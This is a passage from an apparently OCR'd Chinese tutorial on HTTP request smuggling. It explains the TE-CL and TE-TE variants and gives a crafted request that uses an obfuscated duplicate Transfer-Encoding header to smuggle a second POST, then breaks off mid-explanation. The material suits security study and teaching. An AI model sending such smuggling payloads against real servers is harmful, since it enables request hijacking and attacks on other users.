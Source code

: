 **攻击流程**：
 前端服务器处理`Transfer-Encoding`，当其读取到

```
0\r\n
\r\n
```

认为是读取完毕了。
 此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，因为请求体的长度为`4`.也就是当它读取完

```
12\r\n
```

就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成HTTP请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作(如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。
 **构造请求示例**：

```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：
 前端服务器处理`Transfer-Encoding`，当其读取到

```
0\r\n
\r\n
```
